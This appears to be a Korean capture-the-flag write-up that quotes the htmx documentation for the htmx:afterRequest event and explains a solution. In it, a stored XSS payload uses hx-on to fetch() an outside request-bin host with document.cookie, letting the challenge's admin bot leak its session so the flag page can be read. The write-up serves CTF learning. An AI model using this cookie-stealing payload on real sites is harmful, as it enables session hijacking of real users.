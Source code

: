 https://htmx.org/events/
`
Event - htmx:afterRequest
This event is triggered after an AJAX request has finished either in the case of a successful request (although one that may have returned a remote error code such as a 404) or in a network error situation. This event can be paired with htmx:beforeRequest to wrap behavior around a request cycle.
`
대회가 끝나고, write-up을 보니 `htmx:afterRequest`를 사용한 풀이가 있었다. `htmx:afterRequest`는 AJAX 요청 이후 Request를 한 번 더 전송하는 속성으로 Payload는 아래와 같았다.     
      
```html
<div hx-get="/api/note/01fe5e3e71de0713da71533027bf0e267e6661f8fba78e04711521a28577285c" hx-trigger="load" hx-target="this" hx-on="htmx:afterRequest: fetch('https://enbjsc6lizc3g.x.pipedream.net/?d='+document.cookie)"></div>
```   

거의 다 왔는데 `hx-get` 요청 이후 `htmx:afterRequest`가 수행되며 쿠키 값을 전달한다. 즉, 위 내용을 Note의 입력 값으로 전달하고 Report를 통해 adminbot이 읽게 하면 아래와 같이 세션을 탈취할 수 있게 된다. 
     
<img src="images/2.PNG" width="700px">     

얻은 세션 값을 쿠키에 넣어주고 `/note/flag`에 접근해주면 된다. 
           
<img src="images/3.PNG" width="700px">        
       
`/note/flag`에 접근해주면 FLAG 값이 잘 보이는 것을 확인할 수 있다.    
      